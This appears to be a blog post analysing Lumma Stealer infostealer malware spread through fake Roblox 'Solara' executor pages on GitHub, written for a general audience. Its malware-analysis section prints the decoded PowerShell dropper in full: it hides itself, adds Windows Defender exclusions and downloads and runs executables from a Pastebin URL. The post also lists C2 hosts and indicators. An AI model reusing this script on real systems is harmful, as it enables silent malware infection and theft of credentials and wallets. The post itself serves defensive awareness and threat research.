 # Introduction

![](https://miro.medium.com/v2/resize:fit:468/1*gTVaPjykGnyo4wzPFbRKyg.png)

*Disclaimer: This content is intended for educational and research purposes only. Do not download or interact with malware without appropriate safeguards and precautions.*

To bridge the technical gap on malware for non-technical audiences, this is the first in a series I like to call 'Malware in the Wild.' I will provide additional context that may be lost on those without a technical background in computers. Malware comes in various forms, and the objectives of the threat group can also vary. Oftentimes, it is not to destroy the victim’s computer.

# Brief Overview

[Lumma Stealer](https://www.microsoft.com/en-us/security/blog/2025/05/21/lumma-stealer-breaking-down-the-delivery-techniques-and-capabilities-of-a-prolific-infostealer/) (Lumma) is an infostealer malware that has gained popularity among financially motivated threat actors. This malware targets saved browser credentials (such as autofill), cryptocurrency wallets, and harvests documents on a victim’s computer. Lumma’s model is an affiliate program (also known as Malware-as-a-Service), where malware developers sell the code and even the infrastructure to threat actors, also known as affiliates. Essentially, our threat actors outsource the technical part of stealing from victims. Hell, there is even [customer support](https://www.esentire.com/blog/the-case-of-lummac2-v4-0) for this program.

![](https://miro.medium.com/v2/resize:fit:468/1*78nfrQDOwL2cDbqacEPbkg.png)

Lumma experienced a recent [setback](https://blogs.microsoft.com/on-the-issues/2025/05/21/microsoft-leads-global-action-against-favored-cybercrime-tool/) due to Operation Endgame, which impacted Lumma’s infrastructure by seizing 2,300 domains. The FBI even contacted the affiliates with this message:

![](https://miro.medium.com/v2/resize:fit:436/1*cg0EYGNhFlruSK9e4fmN5A.png)

But despite this seizure and uncovering of affiliates, Lumma [persists](https://theravenfile.com/2025/05/23/lumma-stealer-still-active-after-fbi-crackdown/).

# Hunting for Lumma

So, how do we find Lumma in the wild? I came across a [video](https://youtu.be/CoUUJqhKElQ?si=iqbdivye9mdpzv4p&t=1062) where the researcher analyzes the Lumma he saw on a GitHub page for a Roblox hack. I used Solara as the keyword for my search. It made perfect sense why. Say you (the reader) are super savvy about the tricks pulled by threat actors to gain access to your computer. What about your kids? The desire to win or bypass a video game will trump any hypothetical security talks you would have with them.

Think of finding Malware in the wild as hunting. We can do some Google Dorking to cast a net. Google Dorking is a more refined search tool in Google. It looks something like this: site:github.io solara. Through some searching, I refine my rule, and I find hxxxs://github[.]com/russtha1n/SolaraExecutor.

![](https://miro.medium.com/v2/resize:fit:700/1*BPIQGLqcuvQBVi7FHa9cHw.png)

We will focus on this page, but I want to establish a rule for hunting since the GitHub page will be taken down eventually, and I want to monitor this activity in the future. Our threat actor likes to tag their GitHub page with a bunch of topics:

```
roblox-script-execution-free-new  
roblox-hack-download-free-2025  
roblox-lua-executors-fresh  
roblox-hack-best-2025-free  
roblox-executor-for-pc-github  
roblox-executor-pc-github-2025  
roblox-executor-fresh-one  
roblox-hack-download-github-2025  
solara-executor-free-latest-2025  
roblox-executers-2025-github-new  
roblox-executer-latest-update-2025
```
I found [roblox-script-execution-free-new](https://github.com/topics/roblox-script-execution-free-new?o=desc&s=updated) to have the most results with 73 pages. Another thing to note about these pages is ChatGPT wrote them. The structure and phrasing read very AI-like.

![](https://miro.medium.com/v2/resize:fit:700/1*WtI4uimHBvscbZKgox1aAg.png)

I have also found that these GitHub pages instruct the victim to create exclusion rules for antivirus software to ensure it works. That is the kiss of death for any software. That lets the malware roam free.

# Malware Analysis

But now that we know one of the ways our affiliate can gain initial access to a victim’s computer…what does it do?

Malware analysis is very challenging to translate into a broad audience. It requires knowledge about systems, networks, and programming. I will review the broad strokes of what is happening when Lumma is running and utilize the MITRE ATT&CK framework for the attack chain.

I will be using a sandbox environment from [Any Run](https://any.run/), as it streamlines the analysis and, most importantly, it is free.

For reference, here is a visual of the attack chain:
![](https://miro.medium.com/v2/resize:fit:700/1*XU5Zw5LKLmaCtAWO9N9ORQ.png)

# PowerShell for Command Execution (T1059.001)

I downloaded Solara V3.exe, and when I executed the program, it ran a PowerShell script, but it did so discreetly. Threat actors often obfuscate their scripts by encoding them in Base64. Here is what it looks like:

![](https://miro.medium.com/v2/resize:fit:700/1*Mc8PyFrXN1jsSHozX0XmnA.png)

Yeah, we aren’t going to be able to read that…but our computers can. A popular tool to decode this string is [CyberChef](https://cyberchef.io/). And this is our result:

```
# Start a hidden PowerShell process to display a message box
Start-Process powershell -WindowStyle Hidden -ArgumentList @"
Add-Type -AssemblyName System.Windows.Forms;
[System.Windows.Forms.MessageBox]::Show('', '', 'OK', 'Error');
"@

# Add exclusions to Windows Defender
Add-MpPreference -ExclusionPath @($env:UserProfile, $env:SystemDrive) -Force

# Download files from a Pastebin URL and execute them
$wc = New-Object System.Net.WebClient
$lnk = $wc.DownloadString('https://pastebin.com/raw/rkwztbjh').Split("`r`n")

# Generate a random file name prefix
$fn = [System.IO.Path]::GetRandomFileName()

# Download and execute each file
for ($i = 0; $i -lt $lnk.Length; $i++) {
    $filePath = Join-Path -Path $env:AppData -ChildPath ($fn + $i.ToString() + '.exe')
    $wc.DownloadFile($lnk[$i], $filePath)
    Start-Process -FilePath $filePath
}
```

Lumma starts a hidden PowerShell process so the victim doesn’t see what it is doing. It then creates an antivirus exclusion for the entire system drive and the user profile. Then, it downloads and executes another file from Pastebin. hxxxs://pastebin[.]com/raw/rkwztbjh. This site redirects to a GitHub page: hxxxs://github[.]com/comeppr1/narc1/raw/refs/heads/main/stub1.exe. The script renames the file with random characters; in our case, it is called o4ypv3f0.crd0.exe.

This file holds the Lumma malware payload.

# Software Discovery and C2 communication (T1012, T1518, T1102)

The file we downloaded starts a new process called MSBuild.exe. Which seems legitimate on the surface. However, this process searches for installed software, the computer's name, supported languages, and software policies. It also creates a communication channel through Telegram and the Command and Control (C2) server. In this case, our Lumma was talking to Telegram through IP 149.154.167[.]99. The C2 server channel is at 195.82.147[.]188 with a domain name swenku[.]xyz.

When we reference that IP on VirusTotal, we confirm our suspicion that this malware is communicating with a C2 server. If a C2 server has a persistent connection, it can execute commands and exfiltrate whatever information it is looking to steal.

![](https://miro.medium.com/v2/resize:fit:700/1*LbXqF1XB_2TmfXrEzMt3Fg.png)

# Conclusion

Lumma is a very active threat in the wild. The use of malware masquerading as Roblox hacks should be concerning to anyone with children. This is only one case that I uncovered, and I have no doubt that it affects other video games, such as Fortnite and Minecraft. This Malware is designed to be quiet with the antivirus exclusions. My recommendation to prevent this from impacting potential victims is to ensure your Windows profile is not set to be an administrator. The administrator account should only be used on a per-need basis instead of perpetually. However, since it is the default account, many people continue to use it. The PowerShell script I uncovered earlier has no traction if you are not using an administrator account.

# IOCs

```
hxxxs://github[.]com/russtha1n/SolaraExecutor  
  
Solara V3.exe  
fb45131709af13a9b64f8adf315277787a5352d4636e28cd940f502436a9f1f2  
  
stub1.exe  
4ad66310e5539efdde327df436d1f678f0ec1c1acadcde7a59a7e0401fd9a220  
  
hxxxs://github[.]com/comeppr1/narc1/raw/refs/heads/main/stub1.exe  
  
hxxxs://pastebin[.]com/raw/rkwztbjh  
  
swenku[.]xyz  
140.82.121[.]4  
104.22.69[.]199  
195.82.147[.]188
```